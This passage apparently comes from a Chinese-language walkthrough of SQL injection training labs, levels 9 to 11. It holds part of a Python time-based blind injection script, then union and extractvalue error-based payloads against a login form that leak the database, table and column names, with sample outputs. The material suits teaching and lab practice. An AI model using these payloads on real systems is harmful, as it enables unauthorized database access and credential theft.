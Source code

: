```
                break
def get_respone(url):
    try:
        html = requests.get(url,timeout=2)
        return False
    except Exception as e:
        print("......")
        return True
#可以更改payload 来获取需要的数据
databse_payload ="select database()"
get_data(databse_payload,value,get_length(databse_payload)+1)
```



### 10

时间盲注，与9同，闭合方式为"



### 11

判断闭合（利用反斜杠）

```
uname=Dumb\&passwd=&submit=Submit
```

![image-20200712000501964](sql.assets/image-20200712000501964.png)



判断坑位：

```
uname=00' union select 1,2#&passwd=&submit=Submit
```

![image-20200712000143635](sql.assets/image-20200712000143635.png)



注入方法：

法一：extractvalue测试payload

```
uname=admin' and 1=1# &passwd=admin&submit=Submit //能登陆
uname=admin' and 1=2# &passwd=admin&submit=Submit //不能登陆
```

以上说明存在报错型注入。

```
#爆库
uname=admin' and extractvalue(1,concat(0x7e,(select database()))) #&passwd=admin&submit=Submit
##XPATH syntax error: '~security'

#爆表
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))#&passwd=admin&submit=Submit
##XPATH syntax error: '~emails,referers,uagents,users'

##只能查询到前几个表，后面加上not in ()就可以查到其他表了，如：
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() and table_name not in ('emails')))) #&passwd=admin&submit=Submit

#爆列名
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) #&passwd=admin&submit=Submit
```